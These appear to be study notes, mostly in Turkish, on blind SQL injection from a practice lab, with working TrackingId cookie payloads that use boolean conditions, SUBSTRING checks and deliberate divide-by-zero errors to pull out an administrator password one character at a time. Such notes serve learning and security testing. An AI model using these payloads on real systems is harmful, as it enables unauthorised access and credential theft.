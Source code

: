 # Blind SQL injection (Kör SQL enjeksiyonu)

### Tanım
- SELECT * FROM sessions WHERE TrackingId = 'xyz123';
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='1'
- TrackingId=JNwDzr5zsVqhNLyC' AND '1'='1
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='2'
- TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 
- TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a ==> welcome back
-  TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
- TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
- 

-------------------------------------

- ==> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
    - SELECT TrackingId → TrackingId sütunundaki değeri alır.
    - FROM TrackedUsers → TrackedUsers tablosundan veri çeker.
    - WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' → Sadece belirli bir TrackingId değerine sahip satırları döndürür.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'

    -     SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1)
        - "Administrator" kullanıcısının şifresinin ilk karakterini alır.
    - > 'm'
        - Şifrenin ilk harfinin 'm'den büyük olup olmadığını kontrol eder.
        - Eğer doğruysa, sorgu başarılı olur ve veri döner.
        - Eğer yanlışsa, sorgu başarısız olur ve veri dönmez.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'

Açıklama:

    CASE WHEN (1=2) THEN 1/0 ELSE 'a' END
        (1=2) → FALSE döner
        FALSE olursa 'a' döner.
        TRUE olsaydı 1/0 çalışarak sıfıra bölme hatası oluşturacaktı.

    (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
        Burada CASE ifadesi 'a' döndürdüğü için sorgu başarıyla çalışır ve veri dönebilir.
        Eğer (1=2) yerine (1=1) yazılsaydı, 1/0 işlemi hata oluştururdu.

Bu teknikle saldırgan şunları test edebilir:

    SQL Injection var mı?
        Hata mesajı alırsa, SQL Injection zafiyeti var demektir.
    Hata tabanlı saldırılar mümkün mü?
        Eğer hata mesajı alınabiliyorsa (1/0 sıfıra bölme hatası gibi), saldırgan hata tabanlı SQL Injection kullanabilir.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE 
        WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
        THEN 1/0 
        ELSE 'a' 
      END FROM Users)='a'

-------------------------------------